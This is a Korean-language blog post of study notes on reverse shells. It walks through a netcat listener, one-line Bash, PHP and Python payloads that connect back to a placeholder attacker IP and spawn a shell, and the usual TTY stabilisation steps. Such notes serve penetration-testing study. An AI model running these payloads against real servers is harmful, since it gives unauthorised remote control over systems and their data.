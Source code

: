 ```yaml
---
layout: post
title: "리버스 쉘 (Reverse Shell) 공부"
date: 2025-09-20 17:00:00 +0900
categories: [시스템 해킹]
---
```


### 1. 개요

리버스 쉘(Reverse Shell)은 공격 대상 서버가 공격자 PC로 직접 쉘을 연결하도록 만드는 공격 기법이다. 방화벽이 외부에서 내부로 들어오는 연결은 차단하지만 내부에서 외부로 나가는 연결은 허용하는 경우가 많다는 점을 이용한다.

---

### 2. 1단계: 리스너 설정

가장 먼저 공격자 PC에서 대상 서버로부터의 연결을 받을 준비를 해야 한다. `netcat`을 이용해 특정 포트를 열고 연결을 기다리는 리스너를 실행한다.
```bash
# 4444번 포트에서 연결을 대기하며 상세 정보를 출력
nc -lvnp 4444
```
*   `-l`: 리스닝 모드
*   `-v`: 상세 정보 출력
*   `-n`: DNS 조회 생략
*   `-p`: 포트 지정

---

### 3. 2단계: 페이로드 실행

대상 서버의 환경에 맞는 페이로드를 실행하여 공격자 PC로 연결을 시도한다. `revshells.com`과 같은 도구를 사용하면 원하는 환경의 페이로드를 쉽게 생성할 수 있다.

*   **Bash:** `bash -i >& /dev/tcp/[Attacker IP]/4444 0>&1`
*   **PHP:** `php -r '$sock=fsockopen("[Attacker IP]",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`
*   **Python:** `python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("[Attacker IP]",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'`

---

### 4. 3단계: 쉘 안정화 (Stabilization)

처음 획득한 쉘은 자동 완성이나 `Ctrl+C`가 동작하지 않는 불안정한 쉘(Dumb Shell)이다. 이를 상호작용이 가능한 완전한 TTY 쉘로 업그레이드하는 과정이 필요하다.

[여기에 쉘 안정화 전/후 비교 이미지 삽입]

1.  **TTY 쉘 생성:**
    ```bash
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```
2.  **터미널 제어권 확보:**
    ```bash
    # (Ctrl+Z 입력) -> 쉘을 백그라운드로 보냄
    stty raw -echo; fg
    # (Enter 두 번 입력) -> 다시 포어그라운드로 가져옴
    ```
3.  **환경 변수 설정:**
    ```bash
    export TERM=xterm
    export SHELL=bash
    ```

<hr class="short-rule">
